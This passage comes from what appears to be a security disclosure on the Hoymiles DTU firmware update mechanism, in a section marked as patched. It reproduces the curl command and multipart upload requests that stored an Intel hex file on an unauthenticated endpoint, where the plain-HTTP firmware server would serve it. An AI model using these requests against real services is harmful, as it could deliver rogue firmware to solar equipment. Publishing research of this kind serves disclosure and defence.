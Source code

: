 We can only control the relative part of the uri. The DTU fetches the firmware update image from the server `fwupdate.hoymiles.com` so that the complete uri is (http protocol is used on the DTU side, the device sends an http GET request to get the file):
```
http://fwupdate.hoymiles.com/cfs/hex/2308/27/1462926872823336960.hex
```

### Upload an update image **(PATCHED)**

Within the cloud access, it is possible to upload some pictures of the power plant. This is done via `content-type: multipart/form-data` for example:
```sh
curl https://m.hoymiles.com/fss/api/0/file/upload -H "content-type: multipart/form-data; boundary=---------------------------199673629630748465841477186253" --data-binary @pic
```
And this is the content of `pic`:

```
-----------------------------199673629630748465841477186253
Content-Disposition: form-data; name="file"; filename="pic.png"
Content-Type: image/png

[PNG CONTENT HERE]
-----------------------------199673629630748465841477186253--
```
Answer:
```json
{"status":"0","message":"success","data":{"url":"https://static.hoymiles.com/cfs/png/2309/05/1466304305639329792.png","crc":0,"fileName":"pic.png","filePath":"png/2309/05/1466304305639329792.png","fileSize":6447}}
```
The server gives us back the uri of the image file. Interestingly, no token was needed for this operation. Due to some server (mis)configurations, it was also accessible from `fwupdate.hoymiles.com` with the same relative uri:
```
http://fwupdate.hoymiles.com/cfs/png/2309/05/1466304305639329792.png
```

What happens if we try to upload an intel hex file? By modifying the file name within the `multipart/form-data` header with `X.hex` (w/o modifying the `content-type` field) we could upload an Intel hex file:

```
-----------------------------199673629630748465841477186253
Content-Disposition: form-data; name="file"; filename="X.hex"
Content-Type: image/png

:020000040800F2
:10F80000010800000508A05A99730109545F1714F4
[...]
-----------------------------199673629630748465841477186253--
```
Answer:
```json
{"status":"0","message":"success","data":{"url":"https://static.hoymiles.com/cfs/hex/2308/27/xxxxxxxxxxxxxxx.hex","crc":3282,"fileName":"X.hex","filePath":"hex/2308/27/xxxxxxxxxxx.hex","fileSize":802732}}
```
